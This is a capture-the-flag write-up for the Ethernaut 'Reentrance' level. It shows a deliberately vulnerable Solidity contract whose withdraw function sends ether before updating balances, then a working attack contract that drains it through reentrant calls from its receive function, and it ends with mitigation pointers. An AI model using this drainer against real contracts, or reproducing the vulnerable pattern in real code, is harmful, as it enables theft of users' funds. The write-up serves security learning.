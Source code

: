 ## Challenge
~~~
The goal of this level is for you to steal all the funds from the contract.

  Things that might help:

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.
- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```
`

## Solution

```
contract Attack {
    IReentrancy private immutable target;

    constructor(address _target) public {
        target = IReentrancy(_target);
    }

    // NOTE: attack cannot be called inside constructor
    function attack() external payable {
        target.donate{value: 0.01 ether}(address(this));
        target.withdraw(0.01 ether);

        require(address(target).balance == 0, "target balance > 0");
        selfdestruct(payable(msg.sender));
    }

    receive() external payable {
        uint256 amount = min(0.01 ether, address(target).balance);
        if (amount > 0) {
            target.withdraw(amount);
        }
    }

    function min(uint256 x, uint256 y) private pure returns (uint256) {
        return x <= y ? x : y;
    }
}
```

## Key takeaways and useful resources

Again the CEI pattern is not implemented correctly. Other options to be safe against those kind of attacks is the OpenZeppelin ReentrancyGuard or implementing a manual check if we have

[OZ Reentrancy guard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard.sol)
[Medium article about reentrancy](https://medium.com/immunefi/the-ultimate-guide-to-reentrancy-19526f105ac)

